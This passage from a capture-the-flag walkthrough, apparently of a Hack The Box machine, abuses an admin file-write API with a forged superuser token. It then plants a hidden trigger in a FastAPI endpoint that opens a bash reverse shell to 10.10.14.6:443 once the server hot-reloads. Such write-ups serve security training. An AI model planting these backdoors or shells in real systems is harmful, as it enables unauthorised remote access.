 #### Write File

I’ll use this token with `curl` to try to write a file:

```

oxdf@hacky$ curl http://10.10.11.162/api/v1/admin/file/L3RtcC8weGRm \
> -H 'Content-Type: application/json' \
> -d '{"file": "string"}' \
> -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjUxNzU1MzYxLCJpYXQiOjE2NTEwNjQxNjEsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiODNlM2VkN2EtZDY2ZC00YTI3LWE5MjItNzAxZmI5ZmRjNzU1IiwiZGVidWciOnRydWV9.oyFkKgOC6zls6IY7i3-IOalxgFWXfyR3SRVlFVovLao'
{"result":"success"}

```

It reports success!

### Shell

#### Strategy

I tried to write to `/home/htb/.ssh/authorized_keys`, but it returns an error. My best guess is that `.ssh` doesn’t exist.

There’s not much I can do with file write typically, but I did note above that the webserver is running with a hot reload on. `--reload`, which by [default](https://www.uvicorn.org/settings/) will:

> periodically look for changes in modification times to all `*.py` files (and only `*.py` files) inside of its monitored directories.

So if I can change a Python file, they will all reload.

#### Backdoor Endpoint

I’ll fetch a copy of `user.py`, and edit the `/user/[id]` endpoint:

```

@router.get("/{user_id}", status_code=200, response_model=schemas.User)
def fetch_user(*,
    user_id: int,
    db: Session = Depends(deps.get_db)
    ) -> Any:
    """
    Fetch a user by ID
    """
    if user_id == -223:
        import os; os.system('bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"')
    result = crud.user.get(db=db, id=user_id)
    return result

```

I’ll set it so that a user id of -223 (which should never happen) triggers my reverse shell.
